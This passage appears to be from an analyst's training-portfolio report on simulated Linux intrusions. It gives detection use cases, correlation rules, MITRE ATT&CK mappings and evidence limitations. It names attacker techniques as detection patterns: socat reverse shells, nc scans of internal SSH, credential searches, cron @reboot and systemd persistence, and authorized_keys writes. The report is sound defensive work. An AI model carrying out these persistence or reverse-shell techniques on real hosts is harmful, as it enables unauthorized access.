The observed activity was consistent with an attempt to maintain long-term access to the Linux host through redundant mechanisms.

The persistence techniques were significant because remediation limited to terminating a suspicious process would not necessarily remove unauthorized accounts, scheduled tasks, service configurations, or SSH keys.

The preserved evidence did not independently establish that every configured persistence mechanism successfully executed or was used after a system restart.

#### Detection Opportunities

- Monitor creation and modification of systemd service files, particularly services referencing unfamiliar executables.
- Detect unexpected cron modifications, including new `@reboot` entries.
- Monitor creation of local accounts and assignment of privileged group membership.
- Alert on unauthorized modifications to `/root/.ssh/authorized_keys`.
- Correlate persistence-related changes with earlier suspicious root sessions and command execution.
- Validate suspicious service, cron, account, and SSH-key configuration changes during incident response.
- Review multiple persistence locations before considering a compromised host remediated.

## Detection Opportunities

The six investigations identified several behaviors that could be monitored through Linux authentication logs, web server logs, auditd telemetry, and system configuration monitoring.

The strongest detection opportunities involve correlating related events rather than treating individual commands as inherently malicious.

| Detection Use Case | Suggested Detection Logic | Relevant Telemetry |
| --- | --- | --- |
| SSH password guessing | Identify repeated failed SSH authentication attempts, particularly those targeting privileged accounts | SSH authentication logs |
| Suspicious root authentication | Correlate failed SSH attempts with subsequent successful root authentication, considering source IP and timing | SSH authentication logs |
| Web command injection | Detect suspicious HTTP parameters followed by shell processes launched by the web application | Nginx access logs, auditd |
| Reverse-shell execution | Identify unexpected execution of `socat` or scripting interpreters with remote connection behavior | auditd process telemetry, network logs |
| Automated system discovery | Correlate multiple discovery commands originating from a common shell script or process tree | auditd `EXECVE` and `PROCTITLE` records |
| Security-tool discovery | Detect unexpected enumeration of security processes such as Falcon, Sentinel, or `ds_agent` | auditd process telemetry |
| Suspicious payload staging | Monitor executable extraction or creation under unusual temporary directories such as `/tmp/.apt` | auditd, filesystem monitoring |
| Internal SSH reconnaissance | Detect rapid connection attempts to TCP port `22` across multiple internal destinations | Network telemetry, process command lines |
| Suspected cryptominer execution | Identify unfamiliar executables launched from temporary directories and correlate with unusual resource consumption | auditd, process monitoring, host performance telemetry |
| Privilege escalation | Monitor unexpected `su root` activity, especially following suspicious service-account execution | Authentication logs, auditd UID/EUID |
| Systemd persistence | Detect unauthorized service-file creation or modification and suspicious service startup configurations | Filesystem monitoring, systemd logs |
| Cron persistence | Monitor unexpected cron changes, particularly `@reboot` entries launching unfamiliar executables | Cron files, auditd, filesystem monitoring |
| Privileged-account persistence | Alert on unexpected account creation and privileged group modifications | Account-management logs, `/etc/passwd`, `/etc/group` |
| SSH-key persistence | Detect unauthorized modifications to root or other privileged users' `authorized_keys` files | auditd, filesystem integrity monitoring |

### Recommended Correlation Rules

Three particularly valuable detection patterns emerged from the investigations.

**1. Suspicious SSH authentication followed by privileged access**

Identify repeated failed authentication attempts targeting privileged accounts, followed by a successful SSH login.

Correlate the source IP address, destination host, username, and event timestamps before concluding that the successful login was related to the preceding failures.

**2. Web application command execution**

Identify HTTP requests containing suspicious command separators or shell syntax, followed by shell or interpreter execution from the corresponding web application process.

This correlation is stronger than detecting suspicious request strings alone because it connects an attempted injection to endpoint execution evidence.

**3. Privileged session followed by payload deployment or persistence**

Identify unexpected root authentication or privilege escalation followed by executable staging, service creation, cron modification, local-account changes, or SSH authorized-key writes.

The combination can indicate broader host compromise and is generally more significant than any individual configuration change.

These are proposed defensive detections based on the investigation findings. They were not implemented or validated as production detection rules during the training scenarios.

---

## MITRE ATT&CK Mapping

The following ATT&CK techniques classify suspicious behaviors observed across the six independent investigations.

| Scenario | MITRE ATT&CK Technique | ID | Supporting Evidence |
| --- | --- | --- | --- |
| SSH authentication | Brute Force | `T1110` | Repeated failed SSH password attempts targeting privileged and other accounts |
| SSH access | External Remote Services | `T1133` | Successful SSH access from external source addresses |
| Web exploitation | Exploit Public-Facing Application | `T1190` | TryPingMe command injection supported by HTTP request and auditd execution evidence |
| Web command execution | Command and Scripting Interpreter: Unix Shell | `T1059.004` | Injected commands executed through `/bin/sh` |
| Reverse-shell activity | Command and Scripting Interpreter: Unix Shell | `T1059.004` | `socat` launching a shell through its `EXEC` configuration |
| System discovery | System Information Discovery | `T1082` | `hostname`, `uname`, CPU, memory, and filesystem discovery |
| Process discovery | Process Discovery | `T1057` | `ps` process enumeration |
| Security-tool discovery | Software Discovery: Security Software Discovery | `T1518.001` | Checks for Falcon, Sentinel, and `ds_agent` |
| Payload staging | Ingress Tool Transfer | `T1105` | **Potential** technique; payload extraction was observed, but the original transfer into the host was not established |
| Internal reconnaissance | Network Service Discovery | `T1046` | `nc` scanning internal IP addresses on TCP port `22` |
| Credential search | Unsecured Credentials: Credentials in Files | `T1552.001` | Commands searching files for `key` and `pass` |
| Privilege escalation | Valid Accounts: Local Accounts | `T1078.003` | `su root` followed by confirmed root UID/EUID execution |
| Systemd persistence | Create or Modify System Process: Systemd Service | `T1543.002` | Suspicious `tux.service` configuration |
| Cron persistence | Scheduled Task/Job: Cron | `T1053.003` | `@reboot /usr/sbin/phoenix` |
| Account persistence | Create Account: Local Account | `T1136.001` | Activity involving creation of `koichi` |
| Privileged-account changes | Account Manipulation: Additional Local or Domain Groups | `T1098.007` | Privileged group-membership activity involving `koichi` |
| SSH-key persistence | Account Manipulation: SSH Authorized Keys | `T1098.004` | Activity modifying `/root/.ssh/authorized_keys` |

### Mapping Considerations

These technique mappings describe behaviors from separate simulated scenarios, not one continuous attacker campaign.

The evidence supports some techniques more directly than others.

For example, auditd established successful execution of injected commands, while suspicious SSH authentication supported a credential-attack assessment without revealing exactly how the correct password was obtained.

Similarly, execution commands involving `kernupd` supported suspicious payload activity but did not independently establish sustained cryptocurrency mining.

The `T1105` mapping is a candidate because the evidence showed payload extraction from an archive, not how that archive originally reached the endpoint.

ATT&CK mappings were selected to describe relevant attacker behaviors and plausible objectives, not to imply that every attacker objective succeeded.

---

## Evidence Limitations

The investigations were reconstructed from preserved Linux authentication logs, Nginx access logs, auditd telemetry, and screenshots collected across three training rooms.

| Investigation | Confirmed Observation | Evidence Limitation |
| --- | --- | --- |
| SSH authentication | Failed SSH attempts and successful root authentication | Correct-password acquisition method was not established |
| TryPingMe command injection | Suspicious HTTP requests and successful injected-command execution | Full reverse-shell command and successful interactive session were not independently confirmed |
| Script-based discovery | `debug.sh` initiated system and resource enumeration | Commands did not independently establish malicious intent |
| Cryptominer activity | Root SSH authentication, discovery, staging commands, internal scanning, and `kernupd` launch command | Successful lateral movement, sustained mining activity, and mining-pool communication were not confirmed |
| Reverse shell and escalation | `socat` execution, credential searching, and a confirmed root shell | Original credential-acquisition method and full remote-session details were not established |
| Persistence | systemd, cron, account-management, and authorized-key activity | Successful post-reboot execution or later use of every mechanism was not confirmed |

### Analytical Standard

The investigations distinguished observed activity from confirmed outcomes.

- Authentication logs can confirm successful login without establishing the complete method of credential acquisition.
- Web access logs demonstrate HTTP requests, while auditd process records provide stronger evidence of operating-system command execution.
- Process records can confirm command execution without proving that network connections succeeded.
- UID and EUID evidence can establish execution under elevated privileges.
- Configuration changes can indicate persistence mechanisms without proving subsequent use.
- An executable's name or scenario description does not replace behavioral or binary analysis.

These limitations ensure that the report's conclusions remain grounded in the available evidence.

---

## Skills Demonstrated

**Linux Security Monitoring**
- SSH authentication-log analysis
- Nginx access-log investigation
- auditd `EXECVE` and `PROCTITLE` analysis
- User identity and privilege-context interpretation

**Threat Investigation**
- Process ancestry reconstruction
- Command-injection investigation
- Reverse-shell detection
- System and security-software discovery
- Suspicious payload staging and execution
- Internal network reconnaissance

**Privilege Escalation and Persistence**
- Credential-discovery analysis
- `su` and root-shell investigation
- systemd service persistence
- Cron-based persistence
- Privileged-account investigation
- SSH authorized-key monitoring

**SOC Detection and Reporting**
- Cross-source event correlation
- Behavioral detection design
- MITRE ATT&CK mapping
- Evidence validation
- Technical investigation documentation

### Investigation Takeaway

The strongest lesson across these Linux investigations was the importance of correlating authentication, web, process, and system-configuration evidence.

An individual SSH login, HTTP request, shell command, or configuration change may not establish an intrusion by itself. Correlating related observations can reveal suspicious execution chains, privilege transitions, and attempts to maintain access.

The investigations demonstrate how Linux telemetry can support detection and investigation of initial access, command execution, reconnaissance, privilege escalation, and persistence.